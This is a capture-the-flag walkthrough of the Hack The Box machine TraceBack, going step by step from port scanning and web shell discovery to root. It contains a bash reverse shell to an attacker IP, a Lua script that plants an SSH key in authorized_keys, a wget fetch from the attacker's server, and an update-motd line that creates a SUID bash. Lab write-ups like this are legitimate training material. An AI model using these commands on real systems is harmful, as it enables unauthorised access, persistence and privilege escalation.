 # [TraceBack](https://app.hackthebox.com/machines/traceback)

```bash
nmap -p- --min-rate 10000 10.10.10.181 -Pn
```

![Alt text](img/image.png)

After detection of open ports (22,80), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.181 -Pn
```

![Alt text](img/image-1.png)



While browsing web application, I see that one message is there.

![Alt text](img/image-2.png)


Let's search for webshell files, I find this [page](https://github.com/TheBinitGhimire/Web-Shells) to get names of webshells.

```bash
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```


Let's do directory enumeration for these files via `gobuster`.

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```

![Alt text](img/image-3.png)


But this page asks authentication credentials.

![Alt text](img/image-4.png)

I find these credentials on source code of application.

admin:admin

I used these credentials to connect into machine.

![Alt text](img/image-5.png)


Let's write our reverse shell payload into `Execute` section.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'
```

![Alt text](img/image-6.png)

I got reverse shell from port (1337).

![Alt text](img/image-7.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-8.png)

I just check this user's  privileges via `sudo -l` command.

![Alt text](img/image-9.png)

Via `sysadmin` user, I can run `luvit` binary which can execute scripts which I want.

Now, I wrote `Lua` script to add my attacker's machine public key into `authorized_keys` of target machine.

```bash
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("{public_key}\n")
authkeys:close()
```

![Alt text](img/image-10.png)


Let's open http server to send this file into target machine.

```bash
python3 -m http.server --bind 10.10.14.10 8080
```

![Alt text](img/image-11.png)

Then, download `dr4ks.lua` file into machine via `wget` command.
```bash
wget http://10.10.14.10:8080/dr4ks.lua
```

![Alt text](img/image-12.png)

Then, I run this script via `luvit` binary.
```bash
sudo -u sysadmin /home/sysadmin/luvit /tmp/dr4ks.lua
```

![Alt text](img/image-13.png)


Let's try to connect machine via attacker's private key (id_rsa) file via `ssh` command
```bash
ssh -i {priv_key} sysadmin@10.10.10.181
```

user.txt

![Alt text](img/image-14.png)


For privilege escalation, I upload `pspy64` to see jobs of target system.

![Alt text](img/image-15.png)

I see different and interesting thing `update-motd.d`.


I searched `Privilege Escalation` for this and found related [blog](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/update-motd-privilege-escalation/)


```bash
echo "cp /bin/bash /home/sysadmin/dr4ks && chmod 4777 /home/sysadmin/dr4ks" >> /etc/update-motd.d/00-header
```

Then, we need to run `./dr4ks -p` to get root shell.


